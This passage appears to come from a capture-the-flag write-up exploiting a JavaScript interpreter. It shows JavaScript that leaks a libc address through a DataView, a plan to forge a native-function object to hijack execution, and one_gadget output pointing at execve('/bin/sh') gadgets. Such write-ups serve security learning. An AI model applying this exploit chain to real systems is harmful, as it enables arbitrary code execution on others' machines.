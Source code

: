 ```js
sh32 = 4294967296 // 1<<32
libb_addr_off = 472
libc_leak = c.getUint32(libb_addr_off) + (c.getUint32(libb_addr_off+4)*sh32)

libc_off = 0x7ffff7c31000 - 0x7ffff6bfe010 // got this from gdb
libc_base = libc_leak + libc_off
print('libc base:', libc_base.toString(16))
```
Using this prints:
```
[object DataView]
[object Date]
[object DataView]
1587544064
libc base: 7f786e7e8000
```
So, now we've leaked libc base.

For controlling code execution I forged a `JS_CCFUNCTION` type of object which has a `u.c.function`:

This type of js object can simple be called inside js and will result in underlying `u.c.function` being called. Since we have full control over heap we can modify a DataView object to become `CCFUNCTION`.

Here's the line where it get's called:
```c
void js_call(js_State *J, int n)
{
// ...
	} else if (obj->type == JS_CCFUNCTION) {
		jsR_pushtrace(J, obj->u.c.name, "native", 0);
		jsR_callcfunction(J, n, obj->u.c.length, obj->u.c.function);
		--J->tracetop;
	}
// ...
}
```

As for the target to jump to we use amazing [one_gadget](https://github.com/david942j/one_gadget). It gives us code execution using a single jump to a specific libc address.
```bash
$ one_gadget libc.so.6
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
And third gadget got worked!
